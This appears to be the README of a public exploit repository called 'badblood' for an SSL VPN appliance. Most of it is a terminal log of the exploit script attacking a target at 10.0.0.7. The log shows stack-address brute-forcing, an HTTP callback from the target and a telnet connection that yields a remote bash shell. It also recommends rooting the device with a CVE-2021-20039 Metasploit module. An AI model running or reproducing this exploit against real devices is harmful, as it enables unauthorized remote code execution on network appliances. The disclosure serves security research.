 ```
albinolobster@ubuntu:~/badblood$ python3 badblood.py --rhost 10.0.0.7 --lhost 10.0.0.3 --rversion 10.2.1.2-24sv --top-addr 3218436096 --rhostname sslvpn1

▄▄▄▄    ▄▄▄      ▓█████▄     ▄▄▄▄    ██▓     ▒█████   ▒█████  ▓█████▄     
▓█████▄ ▒████▄    ▒██▀ ██▌   ▓█████▄ ▓██▒    ▒██▒  ██▒▒██▒  ██▒▒██▀ ██▌  
▒██▒ ▄██▒██  ▀█▄  ░██   █▌   ▒██▒ ▄██▒██░    ▒██░  ██▒▒██░  ██▒░██   █▌
▒██░█▀  ░██▄▄▄▄██ ░▓█▄   ▌   ▒██░█▀  ▒██░    ▒██   ██░▒██   ██░░▓█▄   ▌ 
░▓█  ▀█▓ ▓█   ▓██▒░▒████▓    ░▓█  ▀█▓░██████▒░ ████▓▒░░ ████▓▒░░▒████▓ 
░▒▓███▀▒ ▒▒   ▓▒█░ ▒▒▓  ▒    ░▒▓███▀▒░ ▒░▓  ░░ ▒░▒░▒░ ░ ▒░▒░▒░  ▒▒▓  ▒ 
▒░▒   ░   ▒   ▒▒ ░ ░ ▒  ▒    ▒░▒   ░ ░ ░ ▒  ░  ░ ▒ ▒░   ░ ▒ ▒░  ░ ▒  ▒  
 ░    ░   ░   ▒    ░ ░  ░     ░    ░   ░ ░   ░ ░ ░ ▒  ░ ░ ░ ▒   ░ ░  ░  
 ░            ░  ░   ░        ░          ░  ░    ░ ░      ░ ░     ░     
      ░            ░               ░                            ░       

[+] Spinning up HTTP server
[+] User provided the top stack address: bfd57000
[+] Generated 511 total addresses to search
[+] Filtering addresses for double visits (thanks awesome payload!)
[+] Filtered down to 243 total addresses to search
[+] Crashing all forks to reset stack to a semi-predicatable state
[+] Crashing complete. Good job. Let's go do work.
[+] Disabling stderr
[+] Spawning 4 workers
[+] Attempting to exploit the remote server. This might take quite some time. :eek:
[%] Addresses Tested: 9%
[*] Received an HTTP callback from 10.0.0.7 at 10/Jan/2022 18:31:45
[*] Now we got bad blood. Hey! 🦞
albinolobster@ubuntu:~/badblood$ telnet 10.0.0.7 1270
Trying 10.0.0.7...
Connected to 10.0.0.7.
Escape character is '^]'.

bash-4.2$ uname -a
Linux sslvpn1 3.13.3 #1 SMP Tue Oct 12 09:52:15 GMT 2021 i686 i686 i386 GNU/Linux
bash-4.2$ 
```

## Testing

Do you want to hack on this? Great! I highly recommend rooting the device using the [CVE-2021-20039](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-20039) Metasploit module. Drop busybox on the device and start a root telnet shell. Drop gdb on the device and start debugging.


## Credit

* Taylor Swift